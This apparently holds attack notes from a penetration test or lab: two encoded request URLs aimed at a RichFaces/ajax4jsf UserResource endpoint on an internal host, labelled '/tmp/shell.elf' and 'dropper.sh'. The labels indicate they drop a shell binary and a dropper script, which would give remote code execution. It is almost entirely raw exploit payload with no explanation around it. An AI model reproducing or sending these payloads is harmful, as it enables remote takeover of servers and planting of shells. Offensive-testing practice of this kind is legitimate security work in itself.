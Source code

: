 /tmp/shell.elf:
http://10.104.110.235:8080/photoalbum/a4j/s/3_3_3.Finalorg.ajax4jsf.resource.UserResource/n/n/DATA/eAHNVU1rE0EYHqPVtn5VW!xEiKvYVGS2lXrQGhCqqJAqNK1fPchk8yaZOPvhzGyyWCr24EEFQYonixev7UX!gJ7EoiL9BR4UERFEEG!izGya2KAeemlzmt199nmf93nevDvzFbUIjg76vIhJmUT9ZVHAHIQfcgfwqAA-XLvYP8rpSSIJ0r!OI18SaE0GbXQ4EAmDvifBkxJtzZRJhdiMeEX7fK4MjhzIoHUQBVRxXkc30aoManX9PC1QyNeuWyqEhWAuokBpOaApIlwgDgjs-G7ge4obZ6UqdMZneeBZUgF-ee5Zemr6zVACJTKozWFEiHPEhcUaspJTr6g0tAv1Tt5wSLQtVkl9OwucEkZvkByDgSjQ5btVSSxCzwhgIAUGhkdIcQhkyc-figLViaC-Z3xAaNUGhCKOdsaiFbQZ99Seu!fhZ!!9hMF11nENpie372a!X5k!rhFawVEdBqdOKbYgpJgEAaMOkaps7ENzkYtcQYDj1MPJYzPDH40nXTkiIA6hUUuiXab5yAZmX9DGN54pm9YGhJsgdzdQzbUGIp1VqxKa1ELLOV8Yj5rYzroBOzo70X5pSnbHHu2o994ErbbfGnv!!NcDbYDmbqs-RpP7xjlcD0FIXAQ5qONN9dSPGZ-oOVA3mDrEDy3NjvXk4eHQk9QFy-Bj-SlLsTTuU6!iX4OUFzLWgyECJ2XZ0g1sUQLGVOAFq2fiP5kGQaTa37uo!WabdP-5b9t!rH-xZUj3b0yr3l4JjaGQo84xk3BsWO1vMjt!4dPnPeOnzSCq-U5I1GVcpT4-H8oglAoIxJWoo2F2PGHKkeo79Nauj63tQp6S-C0bIqLcAGGXAyhmzRlHJemy5IneQ73JE319h!v609aiZZJe9gGwIrOyVpul9I-t0DTJfy4FHXiHYdhcfYTuLHs7SYjXMNpkwgslZVgtdNDRvUZzS4uupNbq1ULopa0a-0qKTSews5bANLq7!AksfPn-FsEr9HJpEZRDIdPWAvVK8F-iVj0XI2p5!wYf7fD6.jsf


dropper.sh:

http://10.104.110.235:8080/photoalbum/a4j/s/3_3_3.Finalorg.ajax4jsf.resource.UserResource/n/n/DATA/eAHVVc9rE0EUnkarbf1ti1pFiKvYVGS2lXpoa6CgokKq0Nj6oweZbF6SiZPd7cxsslgrevCiIIh48yDoQaFe9KYIehW8-Bd48FcpRRHEmzgzmyY2qIee2j3N7L793ve-782b6TnULDja5!E8JkUS9hVFDnMQXsAdwKMC-Eh1s2eU0yNEEqSf9oOzMbQyhdY5HIiEw54rwZUSbU4VSZnYjLh5-1SmCI4cTKHVEPpUYU6gK6gphVpKXpbmKGSr--YyYQGYTegrLns1RIhzxAGBHa!ke67CxmmpEh33WBZ4mpSBn3vzLHnn3tvhGIqlUKvDiBAnSQkWckhLTt284tAm1D9ZgyHRlogl9ew0cEoYvUQyDAZDX6fvUimxCFxDgIEUGBg-TfLDIAte9mjoq0oE9VyjA0JNaxEKOeqMSKvQxrin9pubH3723YqZuPZaXB3pwfUb6e!n3x3SEZpBvzaDU6cQSRBQTHyfUYdIlTbSoTHJGa5CgOPE3WsD0yMfjSYdGSIgMqGeS6LtpvjQBmaPaeHr35RMq3zCjZE76lGNuQZD7VWLIhrXRIsZTxiNGtBOlHzW!2Sq7ewd2RVptK1We0Nope3q-PtXv25rATR2a-Ulur97ksNEAELiPMjD2t5Ed22Z8ojqA!WCqUX00dLoWHceHglcSUtgmfiIfsJSKPX31C17FyHhBox1YwjBSVhOwFm8IKU!YNuVSgVDHgjPg-5AG0KfeVRiUYhfjitZC1b31H8s9!1QqbNrgTqNKmp5Mt-2!ljzetOwlsdoWnm4DOpGAUft46Y!Irmrh-zJu7HPMzsnj5k2VqcjJlGH8YR6-FQg!UCqQCAliTbWrYr6UwlW-Yrm7FrT2yXIUhL9pdQnSiwQdtGHfNqscViQJRYf6tnfEx!q7T3Q25e0Foyi5FJvHys083CFmXj!GDkNx-TPiaPbZaNB2FB5jh4t9Wrj6gTpKwCtN9YHkjKsLhPQxs-imcUZX1Aj!UIucJNWFX0Zma7966z69wI9XvL-zd!ZfzPwC!q0OAOLgZBJax56GbgnUYtuutPqVvoN7X1Cmg__.jsf
